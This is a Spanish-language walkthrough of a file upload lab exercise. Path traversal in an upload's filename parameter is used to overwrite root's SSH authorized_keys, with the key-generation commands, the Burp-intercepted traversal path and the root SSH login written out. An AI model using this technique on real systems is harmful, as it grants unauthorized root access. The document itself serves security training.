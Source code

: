 # Walk: Laboratorio File Upload - Non-Executable Files

## Fecha: 21/01/2025
## Host: Linux - Ubuntu
## IP: 192.168.205.16

---

## Objetivo
Follow the steps above on VM #1 to overwrite the authorized_keys file with the file upload mechanism. 
Connect to the system via SSH on port 2222 and find the flag in **/root/flag.txt.**

---
## Herramientas
1. curl
2. burp
---
## Procedimiento y comandos
1. Paso 1: Subimos un archivo de texto normal e intervenimos con burp.
2. Paso 2: Notamos que subimos con exito un archivo .txt por el parametro **filename=../../../../../../../../test.txt**
	- El archivo no es ejecutable.
	- Defenimos el vector de ataque, intentando sobreescribir un key ssh autorizado en el directorio root
3. Paso 3: Intentemos sobrescribir el archivo **authorized_keys** en el directorio de inicio para root.
	- **ssh-keygen** (enter)
	Generating public/private rsa key pair.
	Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileup
	Enter passphrase (empty for no passphrase): (enter) 	
	Enter same passphrase again: (enter)
	Your identification has been saved in fileup
	Your public key has been saved in fileup.pub
	- **cat fileup.pub > authorized_keys**
4. Paso 4: Subimos el archivo:
	- En la web cargamos el archivo authorized_keys pero no ejecutamos el servicio con el boton **upload**
	- Con el interceptor on ejecutamos el servicio de carga del archivo y lo interceptamos.
	- En el atributo **filename** ponemos el path relativo del directorio ssh para sobreescribir el key: **../../../../../../../root/.ssh/authorized_keys**
5. Paso 5: Nos conectamos por ssh.
	- **ssh -p 2222 fileup root@mountaindesserts.com**
6. Paso 6: Obtenemos el flag:
	- **cat /root/flag.txt**

---
## Troubleshooting

---

## Herramientas Alternativas
- [ ] **Herramienta 1:** Descripción breve (Comando)
- [ ] **Herramienta 2:** Descripción breve (Comando)
- [ ] **Herramienta 3:** Descripción breve (Comando)

